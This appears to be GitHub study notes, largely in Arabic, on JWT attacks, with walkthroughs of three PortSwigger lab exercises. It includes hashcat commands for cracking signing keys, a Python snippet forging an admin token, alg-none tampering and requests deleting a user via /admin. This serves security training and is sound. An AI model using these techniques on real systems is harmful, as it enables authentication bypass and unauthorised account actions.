 # JWT


- <details>
    <summary>what is JWT?</summary>
  
  # 🔐 JWT Attacks - مقدمة
  
  ## ما هو JWT؟
  
  -   **JWT = JSON Web Token** → معيار لتمثيل البيانات كـ JSON بين
      الأنظمة.
  -   غالبًا يُستخدم في:
      -   **Authentication** (تأكيد هوية المستخدم)
      -   **Session management** (إدارة الجلسات)
      -   **Access control** (تحديد الصلاحيات)
  
  ------------------------------------------------------------------------
  
  ## بنية JWT
  
  يتكون JWT من **3 أجزاء** مفصولة بنقطة `.`:
  
  1.  **Header** → معلومات عن التوكن (الخوارزمية، النوع).
  2.  **Payload** → البيانات (claims) مثل اسم المستخدم والصلاحيات.
  3.  **Signature** → توقيع يعتمد على مفتاح سري للتحقق من عدم التلاعب.
  
  مثال:
  
      xxxxx.yyyyy.zzzzz
  
  ------------------------------------------------------------------------
  
  ## مثال عملي - Payload
  
  ``` json
  {
      "iss": "portswigger",
      "exp": 1648037164,
      "name": "Carlos Montoya",
      "sub": "carlos",
      "role": "blog_author",
      "email": "carlos@carlos-montoya.net",
      "iat": 1516239022
  }
  ```
  
  ### ملاحظات:
  
  -   **Readable**: أي شخص يقدر يفك البيانات لأنها Base64Url (ليست مشفرة).
  -   **Integrity**: التوقيع هو اللي يمنع التلاعب بالبيانات.
  
  ------------------------------------------------------------------------
  
  ## دور الـ Signature
  
  -   التوقيع يتكون من:
  
          HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret )
  
  -   عند استلام التوكن، السيرفر يتحقق من صحة التوقيع.
  
  -   أي تعديل في **Header** أو **Payload** يجعل التوقيع غير صالح.
  
  ------------------------------------------------------------------------
  
  ## نصائح عملية
  
  -   جرب على [jwt.io](https://jwt.io) → فك التوكن وشوف التغيير في
      التوقيع.
  -   استخدم أدوات مثل **Burp Suite** أو **jwt_tool** لاختبار ثغرات JWT.
  
  ------------------------------------------------------------------------
  
    
  </details>




- <details>
     <summary>JWT attacks</summary>

  
  # JWT Attacks Notes
  
  ## 1. JWT vs JWS vs JWE
  
  -   **JWT (JSON Web Token)**: مجرد Format قياسي للـ Tokens. ممكن يكون
      Signed أو Encrypted.
  -   **JWS (JSON Web Signature)**: JWT معمول له **توقيع** (Signature)
      باستخدام خوارزمية زي HS256 أو RS256 عشان يضمن سلامة البيانات.
  -   **JWE (JSON Web Encryption)**: JWT معمول له **تشفير** كامل عشان يحمي
      المحتوى من إنه يتشاف.
  
  ------------------------------------------------------------------------
  
  ## 2. كيف تظهر ثغرات JWT؟
  
  -   **ضعف في التحقق من التوقيع**:\
      مثال: السيرفر يقبل الـ "alg": "none" → يعني يعتبر الـ Token صالح من
      غير أي توقيع.
  
  -   **ضعف في اختيار الخوارزمية**:\
      مثلًا السيرفر متوقع RS256 (مفتاح عام/خاص) لكن يسمح بالتحويل إلى
      HS256 باستخدام المفتاح العام كـ secret.
  
  -   **تسريب الـ Secret**:\
      لو الـ Secret ضعيف أو متسرب، المهاجم يقدر يولّد توكنات صحيحة.
  
  -   **عدم التحقق من الـ Claims**:
  
      -   تجاهل الـ `exp` → التوكن يفضل صالح بعد انتهاء صلاحيته.
      -   تجاهل الـ `aud` → المهاجم ممكن يستخدم التوكن في تطبيق مختلف.
  
  ------------------------------------------------------------------------
  
  ## 3. Impact (التأثير)
  
  -   انتحال هوية المستخدمين (Authentication Bypass).
  -   سرقة صلاحيات (Privilege Escalation).
  -   وصول إلى بيانات أو عمليات محمية.
  
  ------------------------------------------------------------------------
  
  ## 4. مثال على JWT
  
  Header:
  
  ``` json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
  
  Payload:
  
  ``` json
  {
    "sub": "1234567890",
    "name": "Alice",
    "admin": true,
    "exp": 1724252214
  }
  ```
  
  Signature:
  
      HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  
  ------------------------------------------------------------------------
  
  ## 5. أمثلة على الهجوم
  
  ### 5.1 Algorithm None Attack
  
  ``` json
  {
    "alg": "none",
    "typ": "JWT"
  }
  ```
  
  → السيرفر يقبل التوكن بدون توقيع.
  
  ### 5.2 RS256 to HS256 Attack
  
  -   السيرفر متوقع RS256 (مفتاح عام/خاص).\
  -   المهاجم يغيرها إلى HS256 ويستخدم المفتاح **العام** كـ secret لتوليد
      توقيع صحيح.
  
  ------------------------------------------------------------------------
  
  # ✅ الخلاصة
  
  -   دايمًا تحقق من صحة الخوارزمية.
  -   لا تستخدم `none` algorithm.
  -   استخدم Secrets قوية أو مفاتيح صحيحة.
  -   راقب وصحّح Claims زي `exp`, `aud`, `iss`.
  
  

  </details>




- <details>
    <summary>JWT Attacks - Brute-forcing Secret Keys</summary>
    
    # JWT Attacks - Brute-forcing Secret Keys
    
    ## الفكرة الأساسية
    - بعض خوارزميات التوقيع مثل **HS256 (HMAC + SHA-256)** تعتمد على **secret key** (سلسلة نصية عشوائية).
    - لو الـ secret ضعيف أو قابل للتخمين (زي كلمة مرور ضعيفة)، المهاجم يقدر يعمل:
      - إنشاء JWT بأي header و payload.
      - إعادة التوقيع باستخدام الـ secret المخمَّن.
      - الحصول على توقيع صحيح وبالتالي تزوير الـ JWT.
    
    ---
    
    ## أخطاء شائعة من المطورين
    - نسيان تغيير الـ default/placeholder secret.
    - نسخ كود من الإنترنت ونسيان تعديل الـ hardcoded secret.
    - استخدام أسرار ضعيفة أو مشهورة.
    
    ---
    
    ## أداة Brute-force: Hashcat
    - **Hashcat** بيستخدم لمهاجمة مفاتيح JWT بسرعة.
    - موجود مسبقًا في **Kali Linux**.
    - لازم يكون عندك:
      - JWT صالح (موقَّع من السيرفر).
      - wordlist فيها أسرار معروفة.
    
    ---
    
    ## الأمر المستخدم
    ```bash
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    ```

    https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
    
    - ``-a 0`` → هجوم dictionary.
    
    - ``-m 16500`` → مود JWT HS256.
    
    - ``<jwt>`` → التوكن الهدف.
    
    - ``<wordlist>`` → قائمة .
    
    
    #### النتيجة
    
    > Hashcat بيجرب كل secret من الـ wordlist.
    
    لو لقى مطابقة، هيطبع بالشكل:
    
    ```ruby
    <jwt>:<identified-secret>
    ```
    
    لو شغلت الأمر أكتر من مرة، لازم تضيف:
    
    ```
    --show
    ```
    
    
    ```
    hashcat -a 0 -m 16500 <jwt> /usr/share/seclists/Passwords/JWT/jwt.secrets.list
    ```
    ---
    
    <details>
    
    ```
    python3 jwt_tool.py <jwt> -S hs256 -k <secret>
    ```
    
    ```python
    import jwt
    
    payload = {"username": "attacker", "role": "admin"}
    secret = "the_secret_you_found"
    
    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    ```
    
    
    
        
    </details>


  </details>




















----



<details>
  <summary>Lab: JWT authentication bypass via unverified signature</summary>


1. login as **`wiener : peter`**

```http
GET /my-account?id=wiener HTTP/2

Host: 0a560020036c2252813698d200c400be.web-security-academy.net

Cookie: session=eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a560020036c2252813698d200c400be.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

### **`JWT`**

```json
eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
```

- <details>
      <summary>jwt.io</summary>
 
     <img width="1183" height="326" alt="image" src="https://github.com/user-attachments/assets/48bc8145-7604-4124-987c-5add5170affa" />

  
   </details>


- <details>
      <summary>JWT editor burp</summary>

    <img width="732" height="713" alt="image" src="https://github.com/user-attachments/assets/9e106d7c-2521-4e54-98c5-3a348e5d417e" />

  
   </details>




<img width="741" height="125" alt="image" src="https://github.com/user-attachments/assets/554d6f72-cedc-4ccd-972f-4f2618b5b91c" />

<img width="1526" height="738" alt="image" src="https://github.com/user-attachments/assets/045c7041-0caf-4d5f-8838-4a11d70e3479" />


> change path to **`/admin`**

<img width="1498" height="657" alt="image" src="https://github.com/user-attachments/assets/24d92751-c0cb-4d14-ba46-0e5338441d7d" />

<img width="1356" height="557" alt="image" src="https://github.com/user-attachments/assets/0c504fb1-c66e-4c15-867b-9cf29892604e" />

<img width="1430" height="491" alt="image" src="https://github.com/user-attachments/assets/1e4b1cdc-88ad-4dd8-9c95-0d9023896589" />




  
</details>



<details>
    <summary>Lab: JWT authentication bypass via flawed signature verification</summary>

1. login as **`wiener : peter`**

<img width="747" height="613" alt="image" src="https://github.com/user-attachments/assets/49400493-6f82-4b6d-84ae-7872076d755e" />

> change **`algo`** to `none` and remove the signeture and change **``carlos``** to **``administrator``**

<img width="1505" height="731" alt="image" src="https://github.com/user-attachments/assets/6a59e0d7-bc8b-4d6c-bb91-b314fa9d88d4" />


> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1505" height="734" alt="image" src="https://github.com/user-attachments/assets/4de7a1c3-ea34-4b8a-9a49-40a2b1d2d401" />

    
</details>







<details>
    <summary>Lab: JWT authentication bypass via weak signing key</summary>


```
eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M
```

<img width="742" height="614" alt="image" src="https://github.com/user-attachments/assets/45651d25-d4f7-434e-99d5-9667d0c0bcdb" />


```
hashcat -a 0 -m 16500 eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```

<img width="1374" height="273" alt="image" src="https://github.com/user-attachments/assets/f9e1cded-604e-47a2-834f-157ba0aba4c7" />

```
secret1
```

<img width="1546" height="745" alt="image" src="https://github.com/user-attachments/assets/09176375-61b2-4e35-9181-8eab68b53d87" />

> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1492" height="649" alt="image" src="https://github.com/user-attachments/assets/87127834-aeb3-4d22-b683-7c305bc7849e" />




    
</details>









































